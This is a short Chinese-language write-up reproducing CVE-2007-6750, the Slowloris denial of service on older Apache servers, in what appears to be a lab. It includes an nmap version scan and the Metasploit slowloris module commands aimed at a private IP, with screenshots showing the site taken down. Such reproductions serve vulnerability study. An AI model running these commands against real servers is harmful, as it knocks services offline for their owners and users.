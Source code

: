 # （CVE-2007-6750）Apache ddos

> 原文：[https://www.zhihuifly.com/t/topic/2807](https://www.zhihuifly.com/t/topic/2807)

# （CVE-2007-6750）Apache ddos

## 一、漏洞简介

Apache HTTP服务器1.x和2.x允许远程攻击者通过部分HTTP请求导致拒绝服务(守护进程中断)，如Slowloris所示，这与2.2.15之前版本中缺少mod_ReqTimeout模块有关

## 二、漏洞影响

Apache 1.x/2.x

## 三、复现过程

nmap -sV -p80 192.168.146.175(用nmap查看Apache版本)(Apache2.2.3初步断定存在漏洞)

![image](img/9098fb5fb2b8754f5261a20615bbe87f.png)

接着访问网站查看是否正常(发现网站正常)

![image](img/3e621796f37b1a45ce66c953ef8ee2f9.png)

```
msfconsole(启动metasploit)

use auxiliary/dos/http/slowloris(使用模块)

set RHOST 192.168.146.175(设置目标IP) `run(执行攻击)` 
```

![image](img/0144c3ee21d34732e60cb05f0f7bc3b8.png)

再访问网站查看是否正常(发现网站瘫痪)

![image](img/62f2d0d26048b562531c161ede93453b.png)

## 四、参考链接

> https://www.jsxlo.com/cve-2007-6750/